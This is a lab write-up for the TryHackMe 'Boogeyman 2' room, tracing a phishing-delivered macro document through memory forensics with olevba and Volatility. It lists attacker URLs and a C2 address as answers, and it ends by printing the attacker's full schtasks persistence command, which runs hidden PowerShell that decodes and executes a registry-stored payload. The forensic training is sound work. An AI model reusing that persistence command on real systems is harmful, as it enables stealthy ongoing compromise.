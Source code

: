 # Boogeyman 2

### Spear Phishing Human Resources
- What email was used to send the phishing email?<br />
Just open the email in the Artifacts folder:<br />
![image](https://github.com/user-attachments/assets/911cea95-b620-491e-9414-167b6975e472)<br />
`westaylor23@outlook.com`
- What is the email of the victim employee?<br />
`maxine.beck@quicklogisticsorg.onmicrosoft.com`
- What is the name of the attached malicious document?<br />
`Resume_WesleyTaylor.doc`
- What is the MD5 hash of the malicious attachment?<br />
Use `md5sum` to get the answer: <br />
![image](https://github.com/user-attachments/assets/96bbc9c7-65da-4cce-8484-797aa82f77c8)<br />
`52c4384a0b9e248b95804352ebec6c5b`
- What URL is used to download the stage 2 payload based on the document's macro?<br />
Run `olevba Resume_WesleyTaylor.doc` to get the answer:<br />
![image](https://github.com/user-attachments/assets/49bbadfc-0889-4def-84ef-223358a12c23)<br />
`https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.png`
- What is the name of the process that executed the newly downloaded stage 2 payload?<br />
The downloaded file is saved inside `C:\ProgramData\update.js`, which then gets executed by:<br />
![image](https://github.com/user-attachments/assets/80c35c4e-b98b-45e9-b5b8-26767315b8bc)<br />
`wscript.exe`
- What is the full file path of the malicious stage 2 payload?<br />
`C:\ProgramData\update.js`
- What is the PID of the process that executed the stage 2 payload?<br />
At this point I need to start using the volatility framework. It's already installed on the given VM and can be run using `vol -f <filename> <plugins>`. I had to refresh my memory by looking back at the [volatility room](https://tryhackme.com/r/room/volatility) to get some hints on how to use volatility and on which plugins to use.<br />
To list running processes from the dumped memory, run `vol -f WKSTN-2961.raw windows.pslist`:<br />
![image](https://github.com/user-attachments/assets/a3353e4e-a7f2-41d1-b711-c9644ee0cf1b)<br />
`4260`
- What is the parent PID of the process that executed the stage 2 payload?<br />
`1124`
- What URL is used to download the malicious binary executed by the stage 2 payload?<br />
I guess that's the same as before: `https://files.boogeymanisback.lol/aa2a9c53cbb80416d3b47d85538d9971/update.exe`
- What is the PID of the malicious process used to establish the C2 connection?<br />
If we list the process tree using the plugin `windows.pstree`, we can see that the process `wscript.exe` has a child:<br />
![image](https://github.com/user-attachments/assets/2b5777e2-4e40-48df-a3df-96108c3bbfbb)<br />
So `updater.exe` is probably in charge of contacting the C2 (not `conhost.exe`, that's a standard process that runs when we're using a cmd or similar). So the answer is:<br />
`6216`
- What is the full file path of the malicious process used to establish the C2 connection?<br />
For that we can use the `cmdline` plugin. Run `vol -f WKSTN-2961.raw cmdline`:<br />
![image](https://github.com/user-attachments/assets/b65155a3-4f8e-4268-8628-d08f8aa04eb1)<br />
`C:\Windows\Tasks\updater.exe`
- What is the IP address and port of the C2 connection initiated by the malicious binary? (Format: IP address:port)<br />
For this we can use the `netscan` plugin. Run `vol -f WKSTN-2961.raw netscan`:<br /<
![image](https://github.com/user-attachments/assets/c11adf26-d9df-4135-80bf-9cdbdf02a685)<br />
`128.199.95.189:8080`
- What is the full file path of the malicious email attachment based on the memory dump?<br />
For this we can use the `filescan` plugin, which tries to find every possible file from the memory dump. The command I used is `vol -f WKSTN-2961.raw filescan | grep WesleyTaylor`:<br />
![image](https://github.com/user-attachments/assets/6cad6da8-5322-4af9-a6b8-69541db40ba9)<br />
`C:\Users\maxine.beck\AppData\Local\Microsoft\Windows\INetCache\Content.Outlook\WQHGZCFI\Resume_WesleyTaylor (002).doc`
- The attacker implanted a scheduled task right after establishing the c2 callback. What is the full command used by the attacker to maintain persistent access?<br />
There's no direct way of doing this from volatility, but we can use the `strings` command on the memory dump and filter by `schtasks`, which is the command used to set a scheduled task. So run `strings WKSTN-2961.raw | grep schtasks`:<br />
![image](https://github.com/user-attachments/assets/ffa5d0e8-ef3c-457e-b723-c387658790ac)<br />
`schtasks /Create /F /SC DAILY /ST 09:00 /TN Updater /TR 'C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe -NonI -W hidden -c \"IEX ([Text.Encoding]::UNICODE.GetString([Convert]::FromBase64String((gp HKCU:\Software\Microsoft\Windows\CurrentVersion debug).debug)))\"'`
